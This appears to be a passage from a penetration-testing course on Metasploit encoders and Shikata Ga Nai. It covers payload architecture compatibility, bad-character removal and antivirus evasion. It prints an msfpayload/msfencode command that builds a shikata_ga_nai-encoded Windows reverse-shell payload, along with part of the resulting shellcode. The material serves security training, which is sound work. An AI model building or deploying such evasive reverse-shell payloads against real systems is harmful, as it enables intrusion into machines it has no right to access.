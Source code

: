 ***

Over the 15 years of existence of the Metasploit Framework, `Encoders` have assisted with making payloads compatible with different processor architectures while at the same time helping with antivirus evasion. `Encoders` come into play with the role of changing the payload to run on different operating systems and architectures. These architectures include:

| `x64` | `x86` | `sparc` | `ppc` | `mips` |
| ----- | ----- | ------- | ----- | ------ |

They are also needed to remove hexadecimal opcodes known as `bad characters` from the payload. Not only that but encoding the payload in different formats could help with the AV detection as mentioned above. However, the use of encoders strictly for AV evasion has diminished over time, as IPS/IDS manufacturers have improved how their protection software deals with signatures in malware and viruses.

Shikata Ga Nai (`SGN`) is one of the most utilized Encoding schemes today because it is so hard to detect that payloads encoded through its mechanism are not universally undetectable anymore. Far from it. The name (`仕方がない`) means `It cannot be helped` or `Nothing can be done about it`, and rightfully so if we were reading this a few years ago. However, there are other methodologies we will explore to evade protection systems. [This article from FireEye](https://www.fireeye.com/blog/threat-research/2019/10/shikata-ga-nai-encoder-still-going-strong.html) details the why and the how of Shikata Ga Nai's previous rule over the other encoders.

***

### Selecting an Encoder

Before 2015, the Metasploit Framework had different submodules that took care of payloads and encoders. They were packed separately from the msfconsole script and were called `msfpayload` and `msfencode`. These two tools are located in `/usr/share/framework2/`.

If we wanted to create our custom payload, we could do so through `msfpayload`, but we would have to encode it according to the target OS architecture using `msfencode` afterward. A pipe would take the output from one command and feed it into the next, which would generate an encoded payload, ready to be sent and run on the target machine.

```shell-session
[!bash!]$ msfpayload windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 R | msfencode -b '\x00' -f perl -e x86/shikata_ga_nai

[*] x86/shikata_ga_nai succeeded with size 1636 (iteration=1)

my $buf = 
"\xbe\x7b\xe6\xcd\x7c\xd9\xf6\xd9\x74\x24\xf4\x58\x2b\xc9" .
"\x66\xb9\x92\x01\x31\x70\x17\x83\xc0\x04\x03\x70\x13\xe2" .
"\x8e\xc9\xe7\x76\x50\x3c\xd8\xf1\xf9\x2e\x7c\x91\x8e\xdd" .
"\x53\x1e\x18\x47\xc0\x8c\x87\xf5\x7d\x3b\x52\x88\x0e\xa6" .
"\xc3\x18\x92\x58\xdb\xcd\x74\xaa\x2a\x3a\x55\xae\x35\x36" .
"\xf0\x5d\xcf\x96\xd0\x81\xa7\xa2\x50\xb2\x0d\x64\xb6\x45" .
"\x06\x0d\xe6\xc4\x8d\x85\x97\x65\x3d\x0a\x37\xe3\xc9\xfc" .
"\xa4\x9c\x5c\x0b\x0b\x49\xbe\x5d\x0e\xdf\xfc\x2e\xc3\x9a" .
"\x3d\xd7\x82\x48\x4e\x72\x69\xb1\xfc\x34\x3e\xe2\xa8\xf9" .
"\xf1\x36\x67\x2c\xc2\x18\xb7\x1e\x13\x49\x97\x12\x03\xde" .
"\x85\xfe\x9e\xd4\x1d\xcb\xd4\x38\x7d\x39\x35\x6b\x5d\x6f" .
"\x50\x1d\xf8\xfd\xe9\x84\x41\x6d\x60\x29\x20\x12\x08\xe7" .
"\xcf\xa0\x82\x6e\x6a\x3a\x5e\x44\x58\x9c\xf2\xc3\xd6\xb9" .

<SNIP>
```
